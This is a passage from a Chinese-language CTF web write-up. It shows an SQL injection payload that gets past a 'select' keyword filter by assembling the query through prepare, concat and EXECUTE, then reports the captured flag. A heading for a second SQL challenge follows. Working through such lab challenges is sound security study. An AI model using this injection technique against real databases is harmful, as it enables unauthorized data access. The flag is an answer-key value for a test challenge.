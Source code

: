 **发现flag字段，但是select被过滤，我们可以通过预编译的方式拼接select 关键字**

## 构造payload查询

### **1';prepare a from concat('s','elect', ' * from \`1919810931114514` ');EXECUTE a;#**

![image-20230702184146511](CTF(WEB)image/image-20230702184146511.png) 

**得到flag，flag{7176ff72-07ee-4c74-b968-0d7d0e259766}**

# [极客大挑战 2019]EasySQL1

![image-20231031002350202](CTF(WEB)image/image-20231031002350202.png) 
